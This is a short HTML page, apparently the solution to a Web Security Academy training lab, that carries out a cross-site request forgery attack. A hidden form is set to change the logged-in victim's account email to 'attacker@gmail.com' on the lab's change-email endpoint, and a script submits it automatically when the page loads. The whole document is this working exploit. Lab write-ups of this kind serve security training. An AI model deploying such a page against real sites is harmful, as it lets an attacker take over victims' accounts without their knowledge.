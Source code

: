 <html>
    <body>
        <form action="https://0a2b00ac0324d7fb80b50d2a00580062.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com">
   
        </form>
        <script>

            // إرسال النموذج
            document.forms[0].submit();
        </script>
    </body>
</html>
